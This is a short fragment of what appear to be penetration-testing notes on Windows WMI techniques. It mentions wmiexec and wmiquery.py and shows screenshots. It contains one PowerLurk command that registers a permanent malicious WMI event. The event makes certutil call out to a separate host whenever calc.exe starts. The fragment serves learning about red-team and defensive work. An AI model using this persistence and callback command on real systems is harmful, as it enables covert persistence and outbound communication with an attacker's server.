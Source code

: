 ![wmiexec](imgs/wmiexec.png)


**wmiquery.py**

![wmiexec](imgs/wmiquery.png)



### WMI events

**PowerLurk**

```

Register-MaliciousWmiEvent -EventName alert-on-calc -PermanentCommand "certutil.exe -urlcache -split -f http://192.168.56.1:8081/calc-started" -Trigger ProcessStart -ProcessName calc.exe
```

![calc-event](imgs/events.png)

![wmiexec](imgs/calc_stopped.png)

<small>
https://pentestarmoury.com/2016/07/13/151/
</small>


### WMI consumers
